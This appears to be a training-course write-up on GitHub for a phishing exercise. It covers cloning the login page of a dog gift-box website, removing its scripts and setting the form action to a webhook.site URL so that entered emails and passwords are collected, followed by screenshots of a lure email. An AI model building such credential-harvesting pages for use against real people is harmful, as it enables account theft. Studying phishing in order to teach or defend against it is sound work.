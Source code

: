 # Bob has a dog (a bull terrier) named "Shimi". Bob really loves his dog.

1: Which site to use? https://woufbox.com/login

Well-known dog gift box website




2: Modify the script: view-source:https://woufbox.com/login

I've removed all the back-end stuff (<script> </script>)
and changed in <form> action by action=‘https://webhook.site/9a4773c6-71ae-452f-93ee-0197ba7354e7’>
which corresponds to the webhook link where the email and password will be saved.


file:///Users/flolaya/Downloads/TestPhisingDog.html


<img width="1440" alt="Capture d’écran 2024-05-15 à 12 26 31" src="https://github.com/FloretteSimon/BeCode/assets/155719677/fc3609fe-4e02-4e65-aafd-9f109b2d0c15">



<img width="1440" alt="Capture d’écran 2024-05-15 à 12 26 52" src="https://github.com/FloretteSimon/BeCode/assets/155719677/937cdcbb-7b9e-4e5b-9d71-e4fca21112fc">



3: Create HTML for the mail:


<img width="1162" alt="Capture d’écran 2024-05-15 à 12 25 26" src="https://github.com/FloretteSimon/BeCode/assets/155719677/1cb0f208-16f9-4d01-a17a-d72b35937cd7">

<img width="1070" alt="Capture d’écran 2024-05-15 à 12 25 49" src="https://github.com/FloretteSimon/BeCode/assets/155719677/e8b5f395-47e8-4ca5-bb91-23fe7c615f6a">
